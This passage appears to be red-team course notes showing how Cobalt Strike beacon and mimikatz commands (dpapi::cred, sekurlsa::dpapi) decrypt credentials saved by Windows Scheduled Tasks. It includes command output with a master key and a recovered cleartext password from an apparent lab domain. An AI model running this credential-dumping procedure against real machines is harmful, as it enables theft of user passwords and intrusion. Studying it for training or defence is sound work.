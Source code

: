 Scheduled Tasks can save credentials so that they can run under the context of a user without them having to be logged on.  If we have local admin privileges on a machine, we can decrypt them in much the same way.  The blobs are saved under `C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\`.
```
beacon> ls C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 10kb     fil     08/30/2022 12:42:24   DFBE70A7E5CC19A398EBF1B96859CE5D
 528b     fil     08/16/2022 14:55:28   F3190EBE0498B77B4A85ECBABCA19B6E
```
  

`dpapi::cred` can tell us the GUID of the master key used to encrypt each one.
```
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E

guidMasterKey      : {aaa23e6b-bba8-441d-923c-ec242d6690c3}
```
  

`sekurlsa::dpapi` to dump cached keys.
```
beacon> mimikatz !sekurlsa::dpapi

	 [00000000]
	 * GUID      :	{aaa23e6b-bba8-441d-923c-ec242d6690c3}
	 * Time      :	9/6/2022 12:14:38 PM
	 * MasterKey :	10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9
	 * sha1(key) :	cfbc842e78ee6713fa5dcb3c9c2d6c6d7c09f06c

  

And then decrypt.

beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E /masterkey:10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9

  TargetName     : Domain:batch=TaskScheduler:Task:{86042B87-C8D0-40A5-BB58-14A45356E01C}
  UserName       : DEV\jking
  CredentialBlob : Qwerty123
  ```